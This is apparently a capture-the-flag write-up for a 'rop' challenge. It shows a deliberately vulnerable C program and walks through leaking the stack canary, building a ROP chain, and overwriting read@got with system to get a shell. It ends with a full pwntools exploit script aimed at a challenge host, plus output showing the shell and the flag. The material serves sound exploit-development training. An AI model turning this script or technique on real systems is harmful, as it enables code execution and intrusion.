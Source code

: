 ### Overview
Take a look a the source code:
```py
// Name: rop.c
// Compile: gcc -o rop rop.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);

  return 0;
}

```

We can see that our goal are leak canary and create a ROP chain to exploit this program.
Let's calculate the offset between canary and buffer:
```bash
   0x0000000000400779 <+130>:   call   0x4005f0 <read@plt>
   0x000000000040077e <+135>:   lea    rax,[rbp-0x40]
   0x0000000000400782 <+139>:   mov    rsi,rax
   0x0000000000400785 <+142>:   mov    edi,0x40088a
   0x000000000040078a <+147>:   mov    eax,0x0
   ...
   ...
   0x00000000004007cd <+214>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004007d1 <+218>:   xor    rcx,QWORD PTR fs:0x28
   0x00000000004007da <+227>:   je     0x4007e1 <main+234>
   0x00000000004007dc <+229>:   call   0x4005d0 <__stack_chk_fail@plt>
   0x00000000004007e1 <+234>:   leave
   0x00000000004007e2 <+235>:   ret
```
The offset between canary and buffer is ``0x40 - 0x8 = 56 bytes``.
We will send 57 bytes to everwrite the first byte of canary and get its value from the screen.

Next, we will create ROP chain. Let's check all ROP gadget we have in this program:
```bash
gef➤  !ROPgadget --binary rop | grep "pop rdi"
0x0000000000400853 : pop rdi ; ret
gef➤  !ROPgadget --binary rop | grep "pop rsi"
0x0000000000400851 : pop rsi ; pop r15 ; ret
gef➤  !ROPgadget --binary rop | grep "ret"
0x0000000000400596 : ret
```
And some ``plt`` functions like ``read and write`` that will be helpful in this challenge:
```bash
gef➤  info functions @plt
All functions matching regular expression "@plt":

Non-debugging symbols:
0x00000000004005b0  puts@plt
0x00000000004005c0  write@plt
0x00000000004005d0  __stack_chk_fail@plt
0x00000000004005e0  printf@plt
0x00000000004005f0  read@plt
```
We have ``read@plt`` function, so to execute this function, we need to know the value of ``read@got`` which is the address of real ``read`` in libc.

After that, we will have lib base address from that, and it is easy to know the address of system in libc by the fixed offset in libc.

Know the address of system in libc, we can change the value of ``read@got`` point to the address of ``system`` in libc.

And when we execute ``read@plt``, it means that we execute ``system@plt``, and get shell to cat flag.

### Exploitation
```py
#!/usr/bin/env python3
from pwn import *
p= remote("host8.dreamhack.games", 22495)
e= ELF("./rop")
lib = ELF("./libc.so.6")
# first, send buffer to leak canary
buf = b'A'*0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
canary = u64(b'\x00' + p.recvn(7))
print('canary', hex(canary))
# find address of ROP gadget
pop_rdi = 0x0000000000400853
ret = 0x0000000000400596
pop_rsi_r15 = 0x0000000000400851

readplt = e.plt['read']
readgot = e.got['read']
writeplt = e.plt['write']

# write(1, read_got, 8) print out the value of read@got which is point to the read() address in libc
payload = b"A"*56 + p64(canary)*2 # overwrite canary and saved rbp
payload += p64(pop_rdi) + p64(1) 
payload += p64(pop_rsi_r15) + p64(readgot) + p64(0)
payload += p64(writeplt)

#change read@got point to -> system in libc after leak lib base
# read@plt(0, read@got, 8)
# read from input and store in read@got, we will send system address from input here
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(readgot) + p64(0)
payload += p64(readplt) 

# read(binsh) send /bin/sh which will be stored in read@got + 8 
# because we send it right after system address in line 129
payload += p64(pop_rdi) + p64(readgot + 0x8)
payload += p64(ret)
payload += p64(readplt) # call read@plt which was changed to system@plt

p.sendafter(b"Buf: ", payload)
readlib = u64(p.recvn(6) + b'\x00\x00') # receive 6 bytes of read function in libc
libase = readlib - lib.symbols['read'] # calculate lib base by known offset
system = libase + lib.symbols['system'] # system address in libc
print('read', readlib)
print('libc_base', libase)
print('system', system)
p.send(p64(system) + b"/bin/sh\x00")  

p.interactive()

```
### Result
```bash
$ python3 exploi.py 
canary 0x52a8ff29f2bd4200
read 140649870154112
libc_base 140649869021184
system 140649869352288
[*] Switching to interactive mode
\x00\x00p&\x83\x99\xeb\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x80\xb7\x9c\x99\xeb\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa0\xaa\x9c\x99\xeb\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00$ ls
flag
rop
run.sh
$ cat flag
DH{8056b333681caa09d67d1d7aa48a3586ef867de0ac3b778c9839d449d4fcb0cf}
[*] Got EOF while reading in interactive
```